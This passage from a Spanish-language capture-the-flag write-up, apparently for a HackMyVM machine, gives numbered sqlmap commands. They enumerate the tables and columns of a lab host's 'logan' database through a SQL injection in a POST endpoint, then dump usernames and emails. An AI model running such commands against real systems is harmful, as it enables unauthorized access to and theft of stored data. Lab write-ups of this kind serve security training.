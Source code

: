 3. `sqlmap --url [http://192.168.1.140/save-user-agent.php](http://192.168.1.140/save-user-agent.php) --method post --data '{"user_agent":"param"}' --batch -D logan -tables` para ver tablas de la base de datos.

    ![Untitled](/images/2023-12-15-HVM-Logan2/Untitled%2010.png)

4. `sqlmap --url [http://192.168.1.140/save-user-agent.php](http://192.168.1.140/save-user-agent.php) --method post --data '{"user_agent":"param"}' --batch -D logan -T users -columns` para ver columnas de la tabla.

    ![Untitled](/images/2023-12-15-HVM-Logan2/Untitled%2011.png)

    Al parecer no hay contraseñas pero voy a ver los datos igualmente para ver si hay algo interesante.

5. `sqlmap --url [http://192.168.1.140/save-user-agent.php](http://192.168.1.140/save-user-agent.php) --method post --data '{"user_agent":"param"}' --batch -D logan -T users -C user,email -dump`

    ![Untitled](/images/2023-12-15-HVM-Logan2/Untitled%2012.png)
